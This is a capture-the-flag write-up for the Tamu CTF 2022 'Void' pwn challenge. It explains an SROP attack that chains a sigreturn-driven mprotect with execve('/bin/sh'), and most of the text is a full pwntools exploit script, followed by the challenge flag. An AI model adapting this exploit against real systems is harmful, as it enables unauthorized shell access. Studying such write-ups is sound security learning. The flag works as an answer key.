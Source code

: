 ```yaml
---
title: "[Pwn] Void [Tamu CTF 2022]"
date: 2022-04-17 17:25:00
---
```


# 0x0 Introduction

Author: sky

Can't exploit it if there isn't anything to exploit, right? NX, no libc, what else even can you do?!

SNI: void

files: [void](void), [void.c](void.c)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# 0x2 Vulnerability

This is a **SROP** challenge. 

In order to call `syscall(59,'/bin/sh',0,0)`, we need find a writable memory page to write our string at. But the binary itself does not have a writable region except stack.
```
0x0000000000400000 - 0x0000000000401000 - usr     4K s r-- segment.ehdr
0x0000000000401000 - 0x0000000000402000 * usr     4K s r-x map.void.r_x
0x0000000000402000 - 0x0000000000403000 - usr     4K s r-- map.void.r__
0x00007ffc84ce8000 - 0x00007ffc84d09000 - usr   132K s rw- [stack] [stack] ; map._stack_.rw_
0x00007ffc84d13000 - 0x00007ffc84d17000 - usr    16K s r-- [vvar] [vvar] ; map._vvar_.r__
0x00007ffc84d17000 - 0x00007ffc84d18000 - usr     4K s r-x [vdso] [vdso] ; map._vdso_.r_x
```

However, their is no way we can output the stack address using `write`, since `rdi` never set to 1 (`stdout`).

Therefore, we need to use `mprotect` to create an `rwx` memory page so that we can write stack or put shellcode on.

To do that, we also need to set `rsp` to a address on the memory space which point back to the instructions. So when `ret` is called, it will go back to the executable instruction.

luckily, in `0x004020b8`, there is address that point back to `main`. So we can happily point rsp to there and make whole `0x00402000-0x00403000` page writable. 

```
0x004020b8 0x0000000000401000   ..@..... 4198400 /home/aynakeya/ctf/tamuctf2022/void/void .text main,section..text,segment.LOAD1,.text,main,map._home_aynakeya_ctf_tamuctf2022_void_void.r_x main program R X 'mov rax, 0' 'void'
0x004020c0 ..[ null bytes ]..   00000000
0x004020c8 0x0003000300000000   ........
```

After that, we can continue do another sigreturn there and execute `execve("/bin/sh")` to get shell.

# 0x3 Exploit

```
from pwn import *


class BinaryInfo:
    exe = "void"
    libc = ""

    host = "rua.host.goes.here"
    port = 8000


# Set up pwntools for the correct architecture
exe = context.binary = ELF(BinaryInfo.exe)
exe_rop = ROP(exe)
if BinaryInfo.libc != "":
    libc = ELF(BinaryInfo.libc)
    libc_rop = ROP(libc)
else:
    libc = None
    libc_rop = None


# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or BinaryInfo.host
port = int(args.PORT or BinaryInfo.port)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = remote("tamuctf.com", 443, ssl=True, sni="void")
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
#    Arch:     amd64-64-little
#    RELRO:    No RELRO
#    Stack:    No canary found
#    NX:       NX enabled
#    PIE:      No PIE (0x400000)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())


def log_print(*msg):
    log.info(" ".join(map(str,msg)))


def int2byte(x: int):
    return x.to_bytes(exe.bytes, "little")


def wait_for_debugger(io):
    if args.LOCAL and input("debugger?") == "y\n":
        pid = util.proc.pidof(io)[0]
        log_print("The pid is: " + str(pid))
        util.proc.wait_for_debugger(pid)
        log_print("press enter to continue")

ret_addr = exe_rop.find_gadget(['ret'])[0]


io = start()
wait_for_debugger(io)

# rax syscall x64
# 0   read
# 1   write
# 15  rt_sigreturn
# 59  execve

main_addr = exe.sym["main"]
syscall_ret_addr = 0x00401018
fake_rwx_stack_addr = 0x004020b8


mprotect_frame = SigreturnFrame()
mprotect_frame.rip = syscall_ret_addr # return to main and do other thing
mprotect_frame.rsp = fake_rwx_stack_addr
mprotect_frame.rax = constants.SYS_mprotect
mprotect_frame.rdi = 0x00402000
mprotect_frame.rsi = 0x1000
mprotect_frame.rdx = 7 # rwx

do_mprotect = flat({
    0:[
        main_addr,
        syscall_ret_addr,
        bytes(mprotect_frame)
    ]
})

input("send mprotect payload")
io.send(do_mprotect) # set up sigreturn frame
input("trigger sigreturn and mprotect")
io.send(do_mprotect[8:8+15]) # read 15 bytes, trigger sigreturn


execve_bin_sh_frame = SigreturnFrame()
execve_bin_sh_frame.rip = syscall_ret_addr # return to main and do other thing
execve_bin_sh_frame.rsp = fake_rwx_stack_addr # 
execve_bin_sh_frame.rax = constants.SYS_execve
execve_bin_sh_frame.rdi = fake_rwx_stack_addr +8+ len(flat({0:[main_addr,syscall_ret_addr,bytes(execve_bin_sh_frame)]}))
execve_bin_sh_frame.rsi = 0
execve_bin_sh_frame.rdx = 0

do_execve_bin_sh = flat({
    0:[
        main_addr,
        syscall_ret_addr,
        bytes(execve_bin_sh_frame),
        b"/bin/sh\x00",
    ]
})


input("send execve bin/sh payload")
io.send(do_execve_bin_sh) # set up sigreturn frame
input("trigger sigreturn and mprotect")
io.send(do_execve_bin_sh[8:8+15]) # read 15 bytes, trigger sigreturn

io.interactive()
```

# 0x4 Flag

gigem{1_6u355_7h475_h0w_w3_3xpl017_17}
